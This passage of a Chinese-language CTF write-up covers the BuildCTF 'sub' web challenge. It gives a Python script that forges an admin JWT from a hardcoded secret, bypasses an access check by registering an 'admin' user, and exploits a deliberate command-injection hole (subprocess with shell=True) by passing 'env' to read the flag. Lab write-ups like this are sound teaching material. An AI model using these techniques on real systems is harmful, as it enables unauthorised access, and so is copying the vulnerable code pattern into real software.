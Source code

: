 ```php
    {
        echo $flag;
    }else die("再想想");

}else die("不是吧这么简单的md5都过不去？");
?>
```

![19](https://the0n3.top/medias/buildCTF/19.png)

## sub

我个人python web了解并不多，可能有解读错的地方。

阅读源码，发现有几处敏感路由，如`login`,`page`路由，在源码里给了密钥，在login里给了jwt的加密方式，尝试伪造jwt的admin身份

```python
import jwt
import datetime

# 密钥
secret_key = 'BuildCTF'

payload = {
    'sub': 'admin',
    'role': 'admin',
    'exp': datetime.datetime.utcnow() + datetime.timedelta(minutes=30)
}

access_token = jwt.encode(payload, secret_key, algorithm='HS256')
print(f'伪造的 JWT: {access_token}')
```

替换为生成的token访问`/page`路由时，返回了`403 Forbidden`，说明jwt解析了，翻看源码，当前`role`已经是`admin`了，但是解析失败了。大胆猜测一下，题目环境没有注册默认的admin用户，那么我尝试注册一下

```python
        if role != 'admin' or current_user not in users:
            return abort(403, 'Access denied')
```

在注册界面注册`admin`用户，在拿着用户名密码访问`/page`路由，竟然真成功进去了....有点不太正常

尝试目录穿越读取根目录时，会返回`400 badrequest`，源码里禁止了目录穿越，继续往下读，有惊喜。

在这里的源码中`content = subprocess.check_output(f'cat {file_path}', shell=True, text=True)`，这一句给了shell，我们的参数会当作命令解析，使用有空格的命令时发现无法执行，可以直接`env`拿flag

```python
file = request.args.get('file', '')
        file_path = os.path.join(DOCUMENT_DIR, file)
        file_path = os.path.normpath(file_path)
        if not file_path.startswith(DOCUMENT_DIR):
            return abort(400, 'Invalid file name')

        try:
            content = subprocess.check_output(f'cat {file_path}', shell=True, text=True)
        except subprocess.CalledProcessError as e:
            content = str(e)
        except Exception as e:
            content = str(e)
        return render_template('page.html', content=content)
    else:
        return abort(403, 'Access denied')
```
